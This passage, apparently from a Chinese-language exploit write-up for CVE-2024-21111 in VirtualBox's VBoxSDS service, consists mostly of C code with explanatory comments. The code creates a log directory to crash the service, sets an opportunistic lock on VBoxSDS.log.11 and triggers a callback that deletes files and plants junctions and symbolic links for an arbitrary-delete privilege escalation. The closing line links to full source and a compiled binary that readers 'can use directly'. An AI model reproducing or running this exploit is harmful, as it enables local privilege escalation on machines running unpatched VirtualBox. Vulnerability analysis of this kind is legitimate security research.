 cb1 用来创建VBoxSDS.log 目录，正如上文所说，通过这个目录导致服务崩溃来清空文件夹：

```php
void cb1() { // 用来创建VBoxSDS.log dir目录的

    printf("[!] oplock triggered\n");

    printf("[+] creating VBoxSDS.log dir\n");

    if (!CreateDirectory(L"C:\\ProgramData\\VirtualBox\\VBoxSDS.log", NULL)) {
        printf("Error creating dir. Exiting\n");
        exit(1);
    }
    else {
        printf("[!] sleeping for 2 sec\n");
        Sleep(2000);
    }

    return;

}
```

Monitor函数是这里面最主要的函数，用来设置上锁和回调函数：

```php
BOOL Monitor(HANDLE hDir) {

    printf("[!] Monitor called\n");
    BOOL deleted = FALSE;
    _swprintf(filen, L"VBoxSDS.log.11");
    do {    
        // 这个循环会一直执行，直到 deleted 被设置为 TRUE
        do {
            // 尝试以 DELETE 权限打开文件 "C:\\ProgramData\\VirtualBox\\VBoxSDS.log.11"，直到成功为止（其实一次就成功）
            h = CreateFile(L"C:\\ProgramData\\VirtualBox\\VBoxSDS.log.11", DELETE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_ALWAYS, FILE_FLAG_OVERLAPPED, NULL);
            printf("h: %x\n", h);
        } while (h == INVALID_HANDLE_VALUE);
        // 创建log.11机会锁，文件锁时触发时调用cb0函数：cb0函数删除log.11文件，创建连接点和创建对象管理器符号链接
        oplock = FileOpLock::CreateLock(h, cb0);
        if (oplock != NULL) {
            // 有锁状态下创建一个线程来运行 runSDS 函数，运行时会删除 VBoxSDS.log.11
            HANDLE c = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)runSDS, (LPVOID)1, 0, NULL);
            oplock->WaitForLock(INFINITE);
            CloseHandle(c);
        }
        deleted = TRUE;
    } while (deleted == FALSE);
    return deleted;
}
```

我这里提供写好的源码和编译好的程序，大家可以直接使用：<https://github.com/10cks/CVE-2024-21111-del>
